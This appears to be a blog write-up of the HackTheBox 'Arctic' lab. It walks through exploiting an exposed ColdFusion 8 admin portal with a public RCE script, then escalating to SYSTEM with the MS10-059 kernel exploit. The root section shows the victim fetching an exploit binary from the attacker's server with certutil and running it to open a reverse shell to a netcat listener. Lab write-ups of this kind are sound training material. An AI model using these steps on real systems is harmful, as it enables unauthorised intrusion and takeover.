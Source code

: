 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-26-artic-hackthebox
tags:
- hackthebox
- windows
- kernel exploit
- exposed version
- CVE
title: Artic @ HackTheBox
---
```


Artic is a easy-difficulty [hackthebox.eu](https://www.hackthebox.eu) machine. An exposed admin login portal exposes a version number which once exploited, gains initial access to the internal server. Root access is gained by using a kernel exploit.

## User & Root Flag
This post is a walkthrough for Artic, an Easy machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.28.252`) shows the following results:
```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## User
Visiting port 8500 and visiting the CFIDE folder, eventually you will find `administrator/enter.cfm`.<br>
The site exposes `Cold Fusion 8`, when looking this up reveals a RCE exploit.<br>
`https://www.exploit-db.com/exploits/50057`

```
locate 50057.py
/usr/share/exploitdb/exploits/cfm/webapps/50057.py

cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .

python 50057.py // remember to edit the file to include your lhost/lport & rhosts etc.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Root
Checking systeminfo with `systeminfo` reveals an out-dated OS version.
```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          1/7/2025, 11:11:40 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.051 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.220 MB
Virtual Memory: In Use:    1.065 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.28.252
```
Using windows-exploit-suggestor, you find the system is vulnerable to `MS10-059`.
this exploit can be found on: `https://github.com/SecWiki/windows-kernel-exploits`<br>
Download & upload this file to the victim machine.<br>
```
[YOU] python3 -m http.server 80 // host file
[VICTIM] certutil.exe -urlcache -f http://your_ip/MS10-059.exe MS10-059.exe 
[YOU] nc -lvnp 1234
[VICTIM] .\MS10-059.exe your_ip 1234
```
![root-flag](root.png)